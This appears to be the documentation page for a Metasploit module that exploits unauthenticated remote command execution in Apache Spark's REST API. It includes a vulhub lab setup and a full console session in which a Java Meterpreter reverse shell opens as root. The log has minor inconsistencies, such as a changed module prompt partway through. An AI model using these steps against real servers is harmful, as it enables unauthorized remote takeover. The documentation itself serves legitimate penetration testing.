 ## Description

This module exploits an unauthenticated command execution vulnerability in Apache Spark with standalone cluster mode through REST API.
It uses the function CreateSubmissionRequest to submit a malious java class and trigger it.

## Verification Steps

https://github.com/vulhub/vulhub/tree/master/spark/unacc 

`docker-compose up -d`

## Verification Steps

1. get session on target
2. `use exploit/linux/http/spark_unauth_rce`
3. `set payload <payload>`
4. `set rhosts <rhosts>`
5. `set rport <rport>`
6. `set srvhost <srvhost>`
7. `set srvport <srvport>`
8. `set lport <lport>`
9. `set lhost <lhost>`
10. `exploit`

## Scenarios

### Spark 2.3.1

```
msf > use exploit/linux/http/spark_unauth_rce
msf exploit(linux/http/spark_unauth_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(linux/http/spark_unauth_rce) > set rport 6066
rport => 6066
msf exploit(linux/http/spark_unauth_rce) > set srvhost 10.139.14.167
srvhost => 10.139.14.167
msf exploit(linux/http/spark_unauth_rce) > set srvport 9999
srvport => 9999
msf exploit(linux/http/spark_unauth_rce) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(linux/http/spark_unauth_rce) > set lhost 10.139.14.167
lhost => 10.139.14.167
msf exploit(linux/http/spark_unauth_rce) > set lport 5555
lport => 5555
msf exploit(linux/http/spark_unauth_rce) > exploit
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.139.14.167:5555
msf exploit(linux/http/spark_unauth_rce) > [*] Starting up our web service ...
[*] Using URL: http://10.139.14.167:9999/feTYHNiHufrGI
[*] 127.0.0.1:6066 - Sending the payload to the server...
[*] Sending stage (53867 bytes) to 10.139.14.167
[*] Meterpreter session 2 opened (10.139.14.167:5555 -> 10.139.14.167:56021) at 2018-11-12 16:59:33 +0800
msf exploit(linux/http/apache_couchdb_cmd_exec) > sessions

Active sessions
===============

  Id  Name  Type                    Information          Connection
  --  ----  ----                    -----------          ----------
  2         meterpreter java/linux  root @ 96b2135aee9c  10.139.14.167:5555 -> 10.139.14.167:56021 (127.0.0.1)

msf exploit(linux/http/apache_couchdb_cmd_exec) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter >
```

